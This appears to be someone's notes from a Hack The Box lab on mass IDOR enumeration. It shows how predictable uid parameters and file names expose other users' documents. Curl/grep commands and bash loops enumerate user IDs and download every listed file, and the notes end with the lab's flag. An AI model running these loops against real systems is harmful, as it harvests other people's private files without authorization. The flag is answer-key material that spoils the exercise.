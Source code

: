 # Mass IDOR Enumeration

## Insecure Parameters

http://SERVER_IP:PORT/documents.php?uid=1

/documents/Invoice_1_09_2021.pdf
/documents/Report_1_10_2021.pdf

Files have apredictable name
Fuzz files for other users

--> Static file IDOR

## Mass Enumeration

Burp Intruder
uid=3
...

- Identifying the tags around the files :

<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>

curl -s "http://SERVER_IP:PORT/documents.php?uid=1" | grep "<li class='pure-tree_link'>"

<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>

- Add filter to only get the files

curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"

/documents/Invoice_3_06_2020.pdf
/documents/Report_3_01_2020.pdf

- Use bash to download all documents

#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done

## LAB

83.136.250.104:30155

POST /documents.php HTTP/1.1
Host: 83.136.250.104:30155
Content-Length: 5
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://83.136.250.104:30155
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://83.136.250.104:30155/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

uid=1

     <ul class="pure-tree">
        <li class='pure-tree_link'><a href='/documents/Invoice_1_09_2021.pdf' target='_blank'>Invoice</a></li><li class='pure-tree_link'><a href='/documents/Report_1_10_2021.pdf' target='_blank'>Report</a></li>


#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done

curl -d "uid=1" -X POST http://83.136.250.104:30155/documents.php
        <li class='pure-tree_link'><a href='/documents/Invoice_1_09_2021.pdf' target='_blank'>Invoice</a></li><li class='pure-tree_link'><a href='/documents/Report_1_10_2021.pdf' target='_blank'>Report</a></li>      </ul>
    </li>

curl -d "uid=1" -X POST http://83.136.250.104:30155/documents.php | grep -oP "\/documents.*?.pdf"
/documents/Invoice_1_09_2021.pdf
/documents/Report_1_10_2021.pdf


curl -d "uid=1" -X POST http://83.136.250.104:30155/documents.php | grep -oP "\/documents.*?.txt"

 % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   868  100   863  100     5   131k    780 --:--:-- --:--:-- --:--:--  141k



#!/bin/bash

url="http://83.136.250.104:30155"

for i in {1..20}; do
        for link in $(curl -d "uid=$i" -X POST $url/documents.php | grep -oP "\/documents.*?"); do
                wget -q $url/$link
        done
done


#!/bin/bash

url="http://83.136.250.104:30155"

for i in {1..20}; do
        for link in $(curl -d "uid=$i" -X POST $url/documents.php | grep -oP "\/documents.*?.txt"); do
                echo $url/$link
        done
done

http://83.136.250.104:30155//documents/Invoice_15_11_2020.pdf'
http://83.136.250.104:30155/target='_blank'>Invoice</a></li><li
http://83.136.250.104:30155/class='pure-tree_link'><a
http://83.136.250.104:30155/href='/documents/Report_15_01_2020.pdf'
http://83.136.250.104:30155/target='_blank'>Report</a></li><li
http://83.136.250.104:30155/class='pure-tree_link'><a
http://83.136.250.104:30155/href='/documents/flag_11dfa168ac8eb2958e38425728623c98.txt

#!/bin/bash

url="http://83.136.250.104:30155"

for i in {1..20}; do
        for link in $(curl -d "uid=$i" -X POST $url/documents.php | grep -oP "\/documents.*?.txt"); do
                wget -q $url/$link
        done
done

wget -q http://83.136.250.104:30155/documents/flag_11dfa168ac8eb2958e38425728623c98.txt

cat flag_11dfa168ac8eb2958e38425728623c98.txt 
HTB{4ll_f1l35_4r3_m1n3}